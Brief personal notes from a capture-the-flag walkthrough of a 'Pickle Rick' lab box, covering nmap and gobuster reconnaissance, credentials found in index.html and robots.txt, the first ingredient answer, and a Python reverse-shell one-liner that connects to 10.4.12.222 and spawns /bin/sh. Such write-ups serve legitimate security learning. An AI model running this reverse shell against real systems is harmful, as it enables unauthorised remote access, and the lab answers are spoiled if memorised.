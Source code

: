 # Pickel Rick

export ip=10.10.153.119

nmap -sC -sV -oN nmap/initial 10.10.219.81
		ssh and http
gobuster
	/index.html (Status: 200)
	/login.php (Status: 200)
	/assets (Status: 301)
	/portal.php (Status: 302)
	/robots.txt (Status: 200)


username in index.htmml -- R1ckRul3s
password in robots -- Wubbalubbadubdub

while cat

Command disabled to make it hard for future PICKLEEEE RICCCKKKK.

Q1. First Ingrediant
	mr. meeseek hair

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.12.222",3002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
Q2. 
